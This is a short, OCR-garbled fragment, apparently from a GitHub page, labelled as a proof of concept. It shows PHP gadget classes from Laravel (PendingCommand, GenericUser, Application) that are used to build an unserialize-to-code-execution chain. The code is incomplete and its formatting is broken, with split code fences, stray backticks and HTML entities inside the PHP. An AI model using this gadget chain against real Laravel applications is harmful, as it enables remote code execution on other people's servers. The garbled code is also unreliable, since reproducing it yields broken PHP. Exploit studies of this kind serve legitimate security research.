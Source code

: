 ### POC

```
<?php
//gadgets.php
namespace Illuminate\Foundation\Testing{
	class PendingCommand{
		protected $command;
		protected $parameters;
		protected $app;
		public $test;

```
 public function __construct($command, $parameters,$class,$app)
    {
        $this-&gt;command = $command;
        $this-&gt;parameters = $parameters;
        $this-&gt;test=$class;
        $this-&gt;app=$app;
    }
} 
```

}

namespace Illuminate\Auth{

class GenericUser{

protected $attributes;

public function __construct(array $attributes){

$this->attributes = $attributes;

}

}

}

namespace Illuminate\Foundation{

class Application{

protected $hasBeenBootstrapped = false;

protected $bindings;

```
 public function __construct($bind){
		$this-&gt;bindings=$bind;
	}
} 
``` `}

?>` 
```
